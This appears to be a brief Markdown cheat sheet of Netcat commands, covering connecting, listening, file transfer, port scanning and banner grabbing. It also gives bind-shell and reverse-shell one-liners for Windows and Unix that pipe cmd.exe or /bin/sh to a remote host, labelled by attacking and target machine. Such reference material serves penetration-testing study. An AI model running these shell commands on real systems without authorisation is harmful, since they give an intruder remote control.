 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***
Insert picture here

# Basic  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

#### TCP Port - Listening  
`nc -lvp <PORT>`

#### Connect and return HTTP Page  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

#### File Transfer  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

#### Port Scanning  
`nc -z <IP> <PORT RANGE>`

#### Banner Grabbing  
`echo "" | nc -nv -w1 <IP Address> <Ports>`
  
  
# Windows  
***
#### Bind Shell  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
#### Bind Shell  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
